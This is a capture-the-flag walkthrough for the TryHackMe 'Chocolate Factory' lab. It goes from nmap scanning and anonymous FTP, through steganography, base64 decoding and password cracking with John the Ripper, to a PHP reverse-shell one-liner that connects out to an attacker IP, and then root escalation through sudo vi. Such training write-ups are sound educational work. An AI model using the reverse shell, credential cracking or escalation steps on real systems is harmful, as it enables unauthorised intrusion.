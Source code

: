 ## TryHackMe | Chocolate Factory

### Step 1: Reconnaissance

Start with an nmap scan against the target machine: 

```
nmap -sV -sC [Target IP]
```
We use -sV for a more verbose response, and -sC for standard scripts. Additionally, if you'd like to put the output into a file, you can add -oN [filename].

![NmapScan](THMScreenshots/ChocolateFactory/NmapScan.png)

When our scan finishes, we'll see ports 21, 22, 80, 100, 106, 109, 110, 111, 113, 119, and 125 open. 21 is the port for FTP, and it looks like it allows anonymous login, so we're going to try that first.

```
ftp [Target IP]
```
Make sure to long in as Anonymous! Once we're logged in, you can see there's a file called gum_room.jpg. We can grab that file by using the ```get [file]``` command and exit ftp.

![FTP](THMScreenshots/ChocolateFactory/FTP.png)

### Steganography

There's gotta be some sort of information on this image, otherwise why would it be there? Information that's hidden in files such as images or videos is called steganography. The first thing we should do is use the exif tool to get the metadata from the image.

```
exiftool gum_room.jpg
```
We don't find anything super useful here so try using ```steghide``` instead.

```
steghide extract -sf gum_room.jpg

-sf for select stego file
```

The steghide tool will extract the contents of the image into a .txt file, which seems to be encoded with base64.

![steghide](THMScreenshots/ChocolateFactory/steghide.png)

We can use the following command to decode the contents:
```
cat b64.txt | base64 -d > [new file]
```
If you check the contents of the file, you'll notice we've found the username and hashed password for the user "charlie."

So lets see if we can crack this hashed password. Start up John the Ripper.
```
john --wordlist=/usr/share/wordlists/rockyou.txt [file w/ password hash]
```
Once john is finished, we now have our password for the user charlie!

### Accessing the Target Machine and Question 1

We can try logging in with ssh, but once you do, it'll require a key as well with the password. So lets go check out the web server we found in our nmap scan.

![httpserver](THMScreenshots/ChocolateFactory/httpserver.png)

We have a login prompt! Let's use the credentials we just cracked, and it should let us log in.

Once logged in, the page just gives us a spot to enter and execute commands. Lets try getting a php reverse shell going. You can find options to try by going to: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

First, open a listener on your machine:
```
nc -lvnp [port]
-l for listener
-v for verbose
-n for no DNS lookups
-p for port
```

Then edit the reverse shell line with your ip address and port that you opened, which in this case will be the php reverse shell:
```
php -r '$sock=fsockopen("10.10.145.135",9000);exec("/bin/sh -i <&3 >&3 2>&3");'
```
Paste it into the command prompt on the webserver, hit execute, and you should be in!

![phpreverseshell](THMScreenshots/ChocolateFactory/phpreverseshell.png)

Once we're in, list the contents of the current working directory, and there's an interesting file called rev_key_rev. If we cat out the contents of that file, it looks like absolutely nothing. But lets try using ```strings``` to see if there's any important strings in the file. It just so happens that our key is in this file!

### User Flag

First thing's first, since we already have the login credentials, we can go ahead and change our user to charlie.
```
su charlie
```
Unfortunately, it's asking us to do so from a terminal. So go to the /home/charlie directory, and you'll find our first flag, teleport and teleport.pub. User.txt is only readable if we become the charlie user. 

![charliedirectory](THMScreenshots/ChocolateFactory/charliedirectory.png)

If we check teleport, it's actually a private key! If you remember, that's actually exactly what we needed to ssh into the system as charlie earlier. Lets copy that to our system and ssh in so we can act as the charlie user.

Make a file called id_rsa, paste the private key contents into it, and do ```chmod 600 id_rsa```. We're now ready to ssh in.

```
ssh -i id_rsa charlie@targetIP
```
We are now charlie, and can grab the user.txt flag!

![userflag](THMScreenshots/ChocolateFactory/userflag.png)

### Root Flag

Now it's time to escalate our privileges to root.

Firstly, we want to see what commands we can run as sudo.
```
sudo -l
```

Looks like we can run vi as sudo! Let's check and see if there's any privilege escalation methods on https://gtfobins.github.io. Sure enough, it's pretty simple!

![PrivilegeEsc](THMScreenshots/ChocolateFactory/PrivilegeEsc.png)

We can just copy and paste that command into our terminal, and we are now root! Once we head to the /root/ directory, we'll notice there's a script called ```root.py```
Run it and see what happens!

![rootflag](THMScreenshots/ChocolateFactory/rootflag.png)

Hint: the key is the answer we got for #1.

## Congratulations on completing the Chocolate Factory Room!
